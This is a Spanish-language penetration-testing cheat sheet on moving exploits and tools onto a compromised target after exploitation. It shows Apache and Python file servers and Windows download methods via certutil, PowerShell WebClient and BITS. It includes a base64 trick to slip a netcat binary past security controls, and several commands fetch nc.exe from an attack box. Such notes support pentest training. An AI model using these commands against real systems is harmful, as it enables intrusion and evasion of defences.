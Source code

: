 **Transfiriendo exploit o archivos al target (Post explotation)**

**Transferencias de archivos de Linux**

**Usando Apache**

Copiamos nuestro exploit a /var/www/html en nuestra maquina linux

El siguiente paso es iniciar el servidor web Apache para que podamos descargar el archivo exploit al host comprometido:

>service apache2 start

Ahora podemos acceder al servidor web Apache desde el navegador web (o wget) usando la siguiente URL:

http://[IP Webserver]

Después de servir el último archivo, asegúrese de detener el servidor Apache en el cuadro de ataque con el siguiente comando:

>service apache2 stop

**Usando Python**

Una forma más rápida y segura de servir archivos es con Python SimpleHTTPServer es un módulo de Python que le permite usar un solo comando para crear un servidor web para servir archivos y páginas web.

Para iniciar Python SimpleHTTPServer, ejecute el siguiente comando desde el directorio que contiene los archivos que desea servir :

>python -m SimpleHTTPServer [Optional: port]

En Python 3, el comando tiene el siguiente aspecto:

>python3 -m http.server [Optional: port]

**Transferencias de archivos de Windows**

Las transferencias de archivos en máquinas Windows son un poco más difíciles de lograr desde la línea de comandos, ya que los sistemas Windows no tienen una herramienta nativa como wget.

**CertUtil.exe**

Windows tiene un programa integrado de línea de comandos llamado CertUtil.exe, que se instala como parte de los Servicios de certificados y se puede usar para administrar certificados en Windows.
Certutil también es conocido como un binario Living Off Land (LOL) que es una herramienta de sistema confiable y preinstalada con una funcionalidad inesperada 'extra', como la descarga de archivos. Una característica interesante de certutil es la opción de descargar un certificado remoto desde una URL remota y guardarlo en el sistema de archivos local.

Con el siguiente comando podemos descargar un archivo especificando una URL de descarga y guardarlo en el sistema de archivos local especificando un nombre de archivo como argumento final:

>certutil -urlcache -split -f [URL] [Filename.Extension]

Cargas útiles codificadas en base64
Otra buena característica de CertUtil.exe que puede ayudar a evitar los controles de seguridad es la opción de decodificar archivos codificados en Base64 en el sistema de archivos.

Primero, necesitamos codificar en Base64 el ejecutable de Netcat. El comando para codificar archivos Base64 con CertUtil.exe tiene el siguiente aspecto:
>certutil.exe -encode [inputFileName] [encodedOutputFileName]

El siguiente paso es transferir el archivo de texto al destino y decodificarlo nuevamente en un ejecutable. Podemos hacer esto con los siguientes comandos:
>certutil.exe -urlcache -split -f "http://[Attack box IP]/nc.txt" nc.txt

Y el siguiente comando decodifica el binario codificado en Base64 en un archivo ejecutable:
>certutil.exe -decode nc.txt nc.exe

**Descargas de PowerShell: System.Net.WebClient**

En un script:

>echo $storageDir = $pwd > httpdownload.ps1
>echo $webclient = New-Object System.Net.WebClient >> httpdownload.ps1
>echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1

**Descargas de PowerShell: Start-BitsTransfer**
Otra forma de descargar archivos con PowerShell es mediante el Servicio de transferencia inteligente en segundo plano (BITS).

>powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[IP Attack box]/nc.exe -Destination C:\

